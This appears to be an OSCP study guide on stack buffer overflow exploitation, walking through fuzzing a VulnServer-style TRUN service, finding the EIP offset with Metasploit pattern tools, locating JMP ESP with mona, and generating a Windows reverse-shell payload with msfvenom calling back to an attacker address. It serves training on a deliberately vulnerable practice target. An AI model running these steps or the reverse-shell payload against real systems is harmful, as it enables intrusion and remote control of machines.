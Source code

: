 # Buffer Overflow Exploitation

Buffer overflows are critical vulnerabilities that occur when a program writes more data to a buffer than it can hold. This guide covers the essentials for OSCP.

## 📋 Table of Contents
1. [Basics](#basics)
2. [Exploit Development](#exploit-development)
3. [Defenses](#defenses)
4. [Tools](#-tools)
5. [Resources](#-resources)

## Basics
- **Buffer**: Memory block for data storage
- **Stack**: Stores function calls and local variables
- **EIP**: Extended Instruction Pointer - controls execution flow
- **ESP**: Extended Stack Pointer - points to the top of the stack

## Exploit Development

### 1. Fuzzing
```python
import socket
buffer = "A" * 100
while True:
    try:
        s = socket.socket()
        s.connect(('192.168.1.100', 9999))
        s.send(('TRUN /.:/' + buffer))
        buffer += "A" * 100
    except:
        print(f"Crashed at {len(buffer)} bytes")
        break
```

### 2. Find Offset
```bash
# Generate pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000

# Find offset after crash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 386F4337
```

### 3. Control EIP
```python
offset = "A" * 2003
eip = "\x42\x42\x42\x42"  # BBBN
buffer = offset + eip
```

### 4. Find Bad Characters
```python
badchars = ("\x01\x02\x03...\xfe\xff")  # All chars except null byte
# Send and check memory dump for corruption
```

### 5. Find JMP ESP
```
!mona modules
!mona find -s "\xff\xe4" -m "essfunc.dll"
```

### 6. Generate Shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f c -b "\x00"
```

## Defenses
- **DEP**: Prevents execution from data pages
- **ASLR**: Randomizes memory addresses
- **Stack Canaries**: Detects stack smashing
- **SafeSEH**: Protects exception handlers
- **CFG**: Validates function calls

## 🛠 Tools
- Immunity Debugger with Mona
- msfvenom
- pattern_create/offset
- gdb (Linux)
- OllyDbg

## 📚 Resources
- [FuzzySecurity Guide](https://www.fuzzysecurity.com/tutorials/expDev/1.html)
- [Corelan Tutorial](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
- [OSCP Buffer Overflow Prep](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
- [OffSec Buffer Overflow](https://www.offensive-security.com/student-forum/threads/offsecs-buffer-overflow-primer.110/)

## ⚠️ Practice
1. Try the [VulnServer](https://github.com/stephenbradshaw/vulnserver)
2. Practice with [Brainpan](https://www.vulnhub.com/entry/brainpan-1,51/)
3. Test with [SLMail](https://www.exploit-db.com/exploits/638)

Remember to practice in a controlled environment with proper authorization.

